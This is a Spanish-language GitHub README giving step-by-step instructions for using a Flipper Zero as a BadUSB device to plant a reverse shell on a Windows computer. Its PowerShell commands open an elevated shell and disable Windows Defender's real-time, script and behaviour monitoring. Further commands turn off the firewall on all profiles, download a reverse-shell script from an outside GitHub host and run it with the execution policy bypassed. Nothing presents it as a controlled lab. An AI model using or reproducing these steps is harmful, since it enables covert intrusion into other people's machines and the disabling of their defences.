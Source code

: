 # PASOS PARA INYECTAR UNA REVERSESHELL EN UN EQUIPO DESDE UN FLIPPER ZERO.

1. Crea una reverseshell desde 0, o hazla en la página https://www.revshells.com/. 





1. Crea un archivo TXT compuesto por DELAYS, ENTERS Y STRINGS adecuandolos a tu gusto. (Tienes el ejemplo en el proyecto de una reverseshell creada por mi).





1.  DELAY = La función que hace que el procesador espere "delay(1000); //provoca un retardo de 1000ms = 1 segundo".
2.  ENTER = Simula la acción de la tecla Intro del teclado.
3.  STRING = Se trata de una secuencia de caracteres usados para representar el texto.

1.  Sabiendo esto, vamos a empezar a programar nuestro txt.





 1.  Con este comando en String abrimos la pestaña de Ejecutar.
      ```sh g
      GUI r
      ```



 1.  Abrimos Powershell.
      ```sh g
      powershell
      ```
 1.  Lo ejecutamos como administrador.
      ```sh g
      CTRL-SHIFT ENTER
      ```

 1.  Le damos a que sí cuando nos pregunte si queremos abrirlo como administrador.
      ```sh g
      ALT s
      ```
 1.  Utilizamos este String para para deshabilitar el Windows Defender.
      ```sh g
      powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -  
      DisableIntrusionPreventionSystem $true'
      ```
 1.  Desactivamos el Firewall.
      ```sh g
      Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
      ```
 1.  Descargamos el ReverseShell con el String Invoke-WebRequest (Yo en mi caso lo tengo alojado en github).
      ```sh g
      Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alvaroarenas69/scrips-powershell/main/reverseshell.ps1" -OutFile "reverseshell.ps1"
      ```
 1.  Ejecutamos el ReverseShell.
      ```sh g
      powershell -ExecutionPolicy Bypass -File ".\reverseshell.ps1"
      ```
 1.  Una vez creado el txt, lo guardamos. Conectamos el Flipper al PC mediante la aplicación qflipper, que podemos descargar en el siguiente      enlace: https://flipperzero.one/update
 2.  Dentro de la aplicación, buscamos el fichero Read File y pegamos el txt en la carpeta BADUSB.

    
     ![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/badusb.png)
 4.  Y por último, solo queda ejecutar el Scrip que hemos creado desde el flipper zero.


















